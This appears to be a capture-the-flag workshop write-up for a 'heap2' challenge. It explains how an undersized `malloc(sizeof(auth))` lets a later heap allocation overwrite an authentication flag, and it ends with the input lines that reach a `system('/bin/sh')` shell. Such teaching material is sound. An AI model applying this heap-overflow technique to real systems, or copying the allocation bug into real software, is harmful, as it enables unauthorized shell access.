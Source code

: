 So the first thing we notice is a struct. We will come back to this later

```code
struct auth { //note the lack of typedef
  char name[32];
  int auth;
};

struct auth *auth; // naming the struct pointer the same as the struct its self
char *service;
```




Let's look at the auth function
```code    
if(strncmp(line, "auth ", 5) == 0)
{
    auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
    memset(auth, 0, sizeof(auth));

    if(strlen(line + 5) < 31)
        strcpy(auth->name, line + 5);
}
```

and the corresponding assembly

```code
auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
```

```asm
804866e:	83 ec 0c             	sub    esp,0xc
8048671:	6a 04                	push   0x4 ; only 0x4 bytes!!
8048673:	e8 08 fe ff ff       	call   8048480 <malloc@plt>
8048678:	83 c4 10             	add    esp,0x10
804867b:	a3 e8 9a 04 08       	mov    ds:0x8049ae8,eax
```
This is the main bug in this program. Because the dev wrote `sizeof(auth)` and not `sizeof(struct auth)`, there will be `0x4` bytes of memory (the size of `*auth`) allocated and not `0x24` (the size of `struct auth`).




Lets see what happens with the service case.
```code
if(strncmp(line, "service", 6) == 0)
    service = strdup(line + 7); //this will stored on the heap
```
Notice that we do not have any restrictions on the amount of memory allocated.


Let's take a look at the login command

```code    
if(strncmp(line, "login", 5) == 0)
{
  if(auth->auth)
  {
      printf("Welcome Adnim!\n");
      system("/bin/sh");
  } else
      printf("please enter your password\n");
}
```  

the most important line

```code
if(auth->auth)
```

```asm
8048751:	a1 e8 9a 04 08       	mov    eax,ds:0x8049ae8
8048756:	8b 40 20             	mov    eax,DWORD PTR [eax+0x20] ;0x20 offset
8048759:	85 c0                	test   eax,eax
804875b:	74 25                	je     8048782 <main+0x187>
```


![A basic visualization](https://github.com/kablaa/CTF-Workshop/blob/master/writeups/heap2/heap.png)

So what is happening is this: Because only 0x4 bytes are being allocated on the heap, and because `auth->auth` is at `<location of auth> + 0x20`, `service` is now located _before_ `auth->auth`. So we can overwrite the value.

so we can run
```sh
auth lessthan32bits
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
login
```

This is why we should be careful with how we name our variables kids!
